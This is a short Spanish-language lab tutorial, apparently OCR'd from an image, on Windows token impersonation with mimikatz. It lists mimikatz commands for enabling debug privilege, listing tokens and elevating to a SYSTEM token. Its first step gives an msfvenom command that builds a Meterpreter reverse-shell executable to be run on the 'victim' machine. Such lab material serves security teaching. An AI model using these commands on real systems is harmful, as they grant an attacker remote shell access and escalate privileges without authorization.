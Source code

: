 1. Abre una consola de **Administrador**.
2. Ejecuta mimikatz.

```cmd
privilege::debug
token::list
```

Esto lista los tokens activos. Luego puedes impersonar uno:

```cmd
token::elevate
```

Si el token tiene privilegios, ahora **tienes acceso como ese usuario**.

---

### 🧪 Laboratorio: Token Impersonation con mimikatz

#### 🔧 Escenario:

- Una máquina Windows 10.
- Un usuario atacante con acceso limitado.
- Un proceso corriendo con permisos de **Administrador**.

---

#### 🔹 Paso 1: Consigue acceso al sistema (por ejemplo con Meterpreter o una shell remota)

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.10 LPORT=4444 -f exe > shell.exe
```

Ejecútala en la máquina víctima.

---

#### 🔹 Paso 2: Abre mimikatz y enumera tokens

```cmd
privilege::debug
token::list
```

Salida típica:

```txt
Token Id  : 0
User name : NT AUTHORITY\SYSTEM
```

---

#### 🔹 Paso 3: Suplanta el token

```cmd
token::elevate
```
